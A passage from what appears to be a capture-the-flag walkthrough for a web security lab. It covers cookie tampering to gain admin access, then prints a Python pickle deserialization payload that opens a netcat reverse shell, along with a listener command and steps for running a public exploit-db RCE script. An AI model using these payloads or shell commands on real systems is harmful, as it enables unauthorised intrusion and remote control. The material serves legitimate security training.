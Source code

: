Use `firefox` to load the url `http://<ip>`. Register using dummy credentials and login to the application.

Inspect the page to read the cookie values from `storage` tab. Decode the `Session ID` from the cookie value, from `base64` using `cyberchef`, to get the flag.

From the `inspect page` section and `storage` tab, rename the `usertype` value from `user` to `admin`. Load the url `http://<ip>/admin` to view admin dashboard and get the flag.


## Task 26 - [Severity 8] Insecure Deserislization - Code Execution

Use these links as references.
- [RCE - Python Pickle](https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3){:target="_blank"}


Create a python script from above url. Replace `IP` and `port` to local resources.
{% capture code %}import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <ip> <port> > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce()))){% endcapture %} {% include code.html code=code %}

Run the script `python rce.py` to generate payload.

Use `netcat` to create a listener for payload.
{% capture code %}nc -lnvp 4444{% endcapture %} {% include code.html code=code %}

Use `firefox` to load the url `http://<ip>`. Register using dummy credentials and login to the application.

Inspect the page to read the cookie values from `storage` tab. Replace the value of `encodedPayload` with previously generated payload. Reload the url to gain shell from `netcat` listener session.

Find the file `flag.txt` from the shell and read its contents to get the flag.
{% capture code %}find / -name flag.txt -type f 2>/dev/null
cat <flag.txt>
  <flag>{% endcapture %} {% include code.html code=code %}


## Task 29 - [Severity 9] Components With Known Vulnerabilities - Lab

Use `firefox` to search for keywords `cse bookstore exploit` and `projectworlds exploit` in google. There will be `RCE` vulnerability in `projectworlds` under the name `online book store` in [exploit-db](https://www.exploit-db.com){:target="_blank"}. Download the python script in the url [RCE Exploit - Online Book Store](https://www.exploit-db.com/exploits/41962){:target="_blank"}.

Use `terminal` to run the python script with the url `http://<ip>`. Use `wc -c /etc/passwd` to get number of words in the `RCE` shell from the payload script.
{% capture code %}python 47887.py "http://10.10.17.184/"{% endcapture %} {% include code.html code=code %}

